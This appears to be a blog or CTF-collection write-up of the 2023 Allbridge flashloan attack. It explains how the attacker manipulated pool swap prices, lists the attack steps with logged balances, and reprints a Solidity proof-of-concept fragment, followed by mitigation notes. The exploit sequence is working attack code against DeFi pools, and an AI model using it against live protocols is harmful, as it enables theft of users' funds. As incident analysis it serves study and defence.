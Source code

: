 # Allbridge

![Swag Image](https://static.vecteezy.com/system/resources/thumbnails/009/665/324/small/cute-kitty-cat-on-train-cartoon-element-free-png.png)


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks


## Amount stolen
**$550k USD**

2-04-2023

## Vulnerability
Flashloan attack


## Analysis

The fundamental issue lies in the manipulation of the pool's swap price, allowing the attacker to exploit the system by acting as both the liquidity provider and swapper. This manipulation led to a significant drain of funds from the pool.

In essence, each Allbridge Core liquidity pool functions as a swap contract, similar to established decentralized exchanges such as Uniswap or Curve Finance. The distinctive feature of Allbridge's pools is that liquidity is contributed using only one token, in contrast to traditional DEXes that require pairs of tokens.

Upon depositing liquidity, the system matches the deposited amount by `minting` an equivalent quantity of vUSD tokens*. This vUSD token serves as an intermediary, facilitating the transfer of value between pools, whether within the same blockchain or across different blockchains.

*vUSD, technically not a token, serves as an abstraction within the Allbridge Core ecosystem. It doesn't directly impact user balances as an actual token.

To illustrate, let's consider the process of bridging BUSD from the BNB Chain to USDT on Tron. This involves the sequential steps of swapping BUSD for vUSD, transferring the vUSD value to Tron using a cross-chain messaging protocol, and finally swapping vUSD for USDT on Tron. Notably, this directional swap results in a decrease in the internal price of BUSD to vUSD, while the price of USDT to vUSD increases. This dynamic creates an incentive for other participants to engage in asset bridging in the opposite direction, seeking profitable opportunities within the Allbridge Core ecosystem.



# Proof of Concept (PoC) 

![Swag Image](../images/allbridge.png)

#### We initiate a flashloan of $7.5M BUSD


During the flashloan, the following steps are executed:

1. **Swap for USDT:**
   - Swap 2 million BUSD for $2M USDT.

2. **Deposit into BUSD Pool:**
   - Deposit $5M BUSD into the BUSD pool using the `deposit` function.

3. **Swap BUSD for USDT:**
   - Swap 500k BUSD for USDT.

4. **Deposit into USDT Pool:**
   - Deposit $2M USDT into the USDT pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate: 5322629245 5306461333 1`

5. **Bridge Swap:**
   - Use the bridge to swap 500k USDT for 500k BUSD, resulting in a high dividend for the previous liquidity deposit.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 4831042788 5799131323 1`


7. **Withdraw from BUSD Pool:**
   - Withdraw $5M BUSD from the BUSD pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 43730 968132265 22138`


8. **Bridge Swap for Profit:**
   - Use the bridge to swap 40k BUSD for 790k USDT, exploiting the artificial pool imbalance.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 39983730 178738726 4`

10. **Withdraw from USDT Pool:**
   - Withdraw $2M USDT from the USDT pool.

11. **Swap USDT for BUSD:**
   - Swap all USDT for BUSD.

11. **Repay Flashloan:**
    - Repay the flashloan using the repaid funds.

12. **Transfer Funds:**
    - Transfer the remaining funds to the attacker's account.
   
`Attacker BUSD balance after exploit: 549889.574365192879687841`


This sequence of actions exploits the liquidity pools, taking advantage of imbalances to maximize gains and navigate the cross-chain swaps.


```solidity
      Swap.swap(address(BUSD), address(USDT), 2_003_300 * 1e18, 1, address(this), block.timestamp);
        BUSDPool.deposit(5_000_000 * 1e18); // deposit BUSD to BUSDPool
        Swap.swap(address(BUSD), address(USDT), 496_700 * 1e18, 1, address(this), block.timestamp);
        USDTPool.deposit(2_000_000 * 1e18); // deposit USDT to USDTPool

        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.tokenBalance() / BUSDPool.vUsdBalance()
        );
        bytes32 token = bytes32(uint256(uint160(address(USDT))));
        bytes32 receiveToken = bytes32(uint256(uint160(address(BUSD))));
        BridgeSwap.swap(USDT.balanceOf(address(this)), token, receiveToken, address(this)); // BridgeSwap USDT to BUSD
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BUSDPool.withdraw(4_830_262_616); // Amplify the imbalance of vUSDbalance and tokenbalance in BUSDPool
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BridgeSwap.swap(40_000 * 1e18, receiveToken, token, address(this)); // BridgeSwap BUSD to USDT
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );
        USDTPool.withdraw(1_993_728_530);

        Swap.swap(address(USDT), address(BUSD), USDT.balanceOf(address(this)), 1, address(this), block.timestamp);
        BUSD.transfer(address(Pair), 7_522_500 * 1e18);
```

## One asset per chain

To prevent the possibility of flash loan attacks, they deployed a single liquidity pool per blockchain. Therefore, it would not be possible to execute an exploit in a single transaction. 

## Mitigation and Best Practices:

Protocols need to add security layers,
using at least two oracles to verify the price. An oracle serves as a means to obtain Real-World Data, enabling smart contracts to interact with external information. This approach would have detected anomalies, such as the mismatch where $40,000 BUSD should not have been able to purchase 700,000 USDT tokens, preventing potential vulnerabilities or exploits.

## Changes to liquidity calculations
The first thing they fixed, was the liquidity calculation on deposits and withdrawals. We implemented several fundamental changes:

- Now virtual vUSD tokens are fully backed by the deposited stablecoins. For example, if you deposit $100k USDC to the pool, they divide it proportionally between the token balance and vUSD balance ($50k each if the pool is balanced).

- On withdrawal, they also take the proportional amount of actual stablecoins and virtual tokens from the amounts in the pool. And since vUSDs are fully backed by the deposited stablecoins it's converted to 1:1.

## Conclusion 

In summary, the attacker is executing a series of actions that involve swapping, depositing, and withdrawing across various pools. These actions create imbalances within the pools, leading to this vulnerability. 

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Allbridge_exp2.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)

